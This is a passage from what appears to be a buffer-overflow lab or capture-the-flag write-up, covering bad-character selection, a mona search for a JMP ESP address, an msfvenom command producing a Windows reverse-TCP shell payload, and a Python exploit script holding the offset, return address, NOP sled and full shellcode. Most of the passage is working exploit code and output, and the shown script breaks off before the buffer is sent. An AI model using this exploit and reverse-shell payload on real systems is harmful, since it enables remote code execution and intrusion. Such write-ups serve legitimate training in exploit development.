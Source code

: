 ```
\x00\x23\x3c\x83\xba
```

Now we need to find a jump point using these chars:

```
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```

Let's copy the first address to the clipboard and reverse it:

```
625011AF ==> \xaf\x11\x50\x62
```

This will be our `retn` variable. Now let's generate payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f c
```

Now that we know what it is we need to exploit this machine, we can return to the previous exploit script and use it as `attack.py`:

```python3
import socket

ip = "10.10.208.35"
port = 1337

prefix = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = (
"\xfc\xbb\x0f\x20\x4a\x5e\xeb\x0c\x5e\x56\x31\x1e\xad\x01"
"\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xf3\xc8\xc8"
"\x5e\x0b\x09\xad\xd7\xee\x38\xed\x8c\x7b\x6a\xdd\xc7\x29"
"\x87\x96\x8a\xd9\x1c\xda\x02\xee\x95\x51\x75\xc1\x26\xc9"
"\x45\x40\xa5\x10\x9a\xa2\x94\xda\xef\xa3\xd1\x07\x1d\xf1"
"\x8a\x4c\xb0\xe5\xbf\x19\x09\x8e\x8c\x8c\x09\x73\x44\xae"
"\x38\x22\xde\xe9\x9a\xc5\x33\x82\x92\xdd\x50\xaf\x6d\x56"
"\xa2\x5b\x6c\xbe\xfa\xa4\xc3\xff\x32\x57\x1d\x38\xf4\x88"
"\x68\x30\x06\x34\x6b\x87\x74\xe2\xfe\x13\xde\x61\x58\xff"
"\xde\xa6\x3f\x74\xec\x03\x4b\xd2\xf1\x92\x98\x69\x0d\x1e"
"\x1f\xbd\x87\x64\x04\x19\xc3\x3f\x25\x38\xa9\xee\x5a\x5a"
"\x12\x4e\xff\x11\xbf\x9b\x72\x78\xa8\x68\xbf\x82\x28\xe7"
"\xc8\xf1\x1a\xa8\x62\x9d\x16\x21\xad\x5a\x58\x18\x09\xf4"
"\xa7\xa3\x6a\xdd\x63\xf7\x3a\x75\x45\x78\xd1\x85\x6a\xad"
"\x76\xd5\xc4\x1e\x37\x85\xa4\xce\xdf\xcf\x2a\x30\xff\xf0"
"\xe0\x59\x6a\x0b\x63\x6c\x60\x77\x80\x18\x74\x77\x40\x87"
"\xf1\x91\xe6\x27\x54\x0a\x9f\xde\xfd\xc0\x3e\x1e\x28\xad"
"\x01\x94\xdf\x52\xcf\x5d\x95\x40\xb8\xad\xe0\x3a\x6f\xb1"
"\xde\x52\xf3\x20\x85\xa2\x7a\x59\x12\xf5\x2b\xaf\x6b\x93"
"\xc1\x96\xc5\x81\x1b\x4e\x2d\x01\xc0\xb3\xb0\x88\x85\x88"
"\x96\x9a\x53\x10\x93\xce\x0b\x47\x4d\xb8\xed\x31\x3f\x12"
"\xa4\xee\xe9\xf2\x31\xdd\x29\x84\x3d\x08\xdc\x68\x8f\xe5"
"\x99\x97\x20\x62\x2e\xe0\x5c\x12\xd1\x3b\xe5\x32\x30\xe9"
"\x10\xdb\xed\x78\x99\x86\x0d\x57\xde\xbe\x8d\x5d\x9f\x44"
"\x8d\x14\x9a\x01\x09\xc5\xd6\x1a\xfc\xe9\x45\x1a\xd5\xe9"
"\x69\xe4\xd6
)
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

```
